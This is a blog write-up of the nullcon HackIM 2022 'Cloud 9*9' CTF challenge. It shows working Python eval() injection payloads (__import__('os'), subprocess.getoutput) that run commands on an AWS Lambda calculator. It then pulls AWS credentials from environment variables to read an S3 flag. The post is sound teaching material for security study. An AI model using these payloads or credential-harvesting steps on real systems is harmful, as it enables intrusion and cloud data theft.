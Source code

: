 ```yaml
---
layout: single
sitemap: true
title: "nullcon HackIM CTF 2022 - Cloud 9*9 Challenge Writeup"
categories:
  - Blog
tags:
  - CTF
  - nullcon
  - HackIM
  - cloud
  - python
  - AWS
---
```


[nullcon HackIM CTF](https://ctf.nullcon.net/) had cloud challenge category this year. Cloud 9*9 was one the challenges in that category. This post describes my thought process and how I solved it.


The challenge description was as below provided with the challenge IP address.

![Cloud 9*9 challenge](/assets/postimages/4/ss0.png)

Two things I assumed from the description is that it is a serverless calculator hosted onto a cloud service provider. First thing I did was to check IP information for the provided IP address. 

[https://ipinfo.io/3.64.214.139](https://ipinfo.io/3.64.214.139) 

From above I can understand that the challenge service is hosted on AWS EU region. Now, I went to look the challenge service page. It looked like below where we can do normal calculator operations. 

![Cloud 9*9](/assets/postimages/4/ss6.png)

Next, I took this request in our very own Burp suite proxy to evaluate it further. I added "*" as input to check how server responds to special characters. Below was the response.
```JSON

HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 14 Aug 2022 07:40:55 GMT
Content-Type: application/json
Content-Length: 267
Connection: close

{"errorMessage":"unexpected EOF while parsing (<string>, line 1)","errorType":"SyntaxError","requestId":"809fbfb0-e311-41cb-971c-32ad50e71be1","stackTrace":["  File \"/var/task/lambda-function.py\", line 5, in lambda_handler\n    'result' : eval(event['input'])\n"]}
```

I can guess a few things by analysing the response from server that backend is running on Python Werkzeug. The calculation was being done by lambda-function.py file and it was using eval() function. 

After googling for some time on how to exploit eval( ) in python. I was able to figure out how to import libraries in python. 

```JSON
Request
{"input":"__import__('os').getcwd()"}

Response
{"result":"/var/task"}
```

Now, our goal is to get code execution on system to find flag on it. So I tried below payload using the python os library. 

```JSON
Request
{"input":"__import__('os').system('id')"}

Response
{"result":0}
```

Seems like code was getting executed but we cannot see the output of the command instead it returned numeric values. Turns out it was linux status code for commands. Each successful command will return zero as output. But it's of no use if we cannot get output of the commands executed. 

After searching for some more time, I found that instead of os library we can also use subprocess library to spawn shell and execute commands. 

```JSON
Request
{"input":"__import__('subprocess').getoutput('ls')"}

Response 
{"result":"lambda-function.py"}
 ```
🎉 Awesome I was able to get shell command output using subprocess. Then I cat the file and got below output. 

```JSON
{"result":"import json\n\ndef lambda_handler(event, context): \n    return { \n        'result' : eval(event['input'])\n        #flag in nullcon-s3bucket-flag4 ......\n    }"}
```

As this is a cloud challenge the flag was on a AWS S3 Storage bucket. It was required to figure how we can read that file from the S3 bucket. After some searching in AWS docs I thought as this serverless calculator function is running on AWS it should use AWS credentials every time it executes. I tried to check environment variables on the server to find anything interesting. 

![Environment variables](/assets/postimages/4/ss1.png) 
 
 We are able to get AWS credentials. So it becomes easy to get the flag from S3 Bucket using AWS CLI. I followed this S3 bucket docs to fetch the flag. 

[https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html) 

![AWS creds](/assets/postimages/4/ss3.png)

I was able to use AWS CLI to fetch the flag file from the S3 Bucket. 

![Flag found](/assets/postimages/4/ss4.png)

Thanks to [ENOFLAG](https://enoflag.de) for organising this CTF and special thanks to [Sec-consult](https://sec-consult.com/) team for creating cloud challenges for the CTF 🙂

Happy Hacking until next time !!! 

